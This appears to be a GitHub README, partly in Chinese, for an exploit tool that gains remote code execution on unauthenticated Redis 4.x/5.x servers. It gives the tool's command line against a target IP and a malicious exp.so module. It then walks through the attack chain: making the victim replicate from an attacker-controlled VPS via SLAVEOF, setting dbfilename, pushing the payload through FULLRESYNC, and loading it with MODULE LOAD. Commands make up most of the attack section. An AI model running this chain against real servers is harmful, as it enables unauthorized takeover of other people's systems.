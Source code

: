 # redis-rce
Redis 4.x/5.x RCE  
inspired by Redis [post-exploitation](https://github.com/tom0li/collection-document/blob/master/15-redis-post-exploitation.pdf).

### 0x00 复现
前提需要未授权  
Compile exp.so from https://github.com/RicterZ/RedisModules-ExecuteCommand.  
运行Ridter的  
```
python redis-rce.py -r 192.168.52.139 -L 192.168.52.139 -P 21001 -f exp.so  
```
![](https://github.com/tom0li/redis-rce/blob/master/1.jpg?raw=true)
![](https://github.com/tom0li/redis-rce/blob/master/2.jpg?raw=true)

### 0x01 过程
将redis设置为我们的slave(可以理解为随从)  
```
SLAVEOF vps可控 port  
```
设置redis的数据库文件  
```
CONFIG SET dbfilename exp.so  
```
同步写入so  
```
+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<payload>  
```
加载模块  
```
MODULE LOAD ./exp.so  
```
### 0x02 Redis主从复制
集群，一个作为主(master)，其余作为从(slave)，master只负责写，slave负责读，缓解master流量压力。  
主从数据相同，slave类似备份机。通过设置可以数据同步。  

### 0x03 优点
1.模块化,兼容性高  
2.无脏数据  

### 参考
```
https://xz.aliyun.com/t/5616
https://paper.seebug.org/975/
https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
https://www.cnblogs.com/iamstudy/articles/redis_load_module_rce.html
https://github.com/Ridter/redis-rce
```
